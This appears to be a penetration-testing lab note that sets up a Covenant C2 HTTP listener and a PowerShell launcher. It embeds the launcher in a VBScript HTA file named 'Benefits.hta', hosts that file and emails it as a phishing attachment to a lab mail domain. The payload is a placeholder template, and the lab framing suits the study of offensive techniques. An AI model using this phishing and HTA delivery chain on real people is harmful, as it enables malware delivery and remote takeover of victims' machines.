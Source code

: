 ### Covenant Setup With *.hta* file extension
- Important notes
	- **Ensure time on target machine and kali machine is set to the same time**
		- `timedatectl`
		- `timedatectl list-timezones | grep -i chicago`
		- `timedatectl set-timezone America/Chicago`
	- **Ensure the `launcher KillDate` is set to a future date**
- On Kali:
	- Create script `Benefits.hta`
```shell
# Defanged script

<\script> language="VBScript">
	Function doStuff()
		Dim wsh
		Set wsh = CreateObject("Wscript.Shell")
		wsh.run "<covenant powershell copied command goes here>"
		Set wsh = Nothing
	  End Function

	  DoStuff
	  self.close
<\script>

```
- Start `Covenant`
	- Go to `Covenenant`
		- Go to `Listeners`
			- Create `HTTP Listener` 
				- Name: `HTTP Listener`
				- ConnectAddress: `your-ip-address`
		- Go to `Launchers`
			- `Powershell`
				- Listnener: `HTTP Listener`
				- DotNetVersion: `Net40`
				- KillDate: `any-day-on-future-date` **make sure this is set properly**
				- `Generate`
				- Copy the `EncodedLauncher` and paste this in the designated spot in the `Benefits.hta` file
		- Go to `Listeners`
			- Click: `HTTP Listener`
				- Go to `Hosted Files`
				- `Create`
					- Path: `/Benefits.hta`
					- Content: `Benefits.hta` 
		- Go to `https://mail.mayorsec.com`
			- Generate the email with the `Benefits.hta` file attached
			- Send the email
	- On Windows host-machine:
		- Go to  `https://mail.mayorsec.com`
			- Click the link and accept the risk **Windows defender needs to be turned off for this and Microsoft Word needs to be present on the host machine**

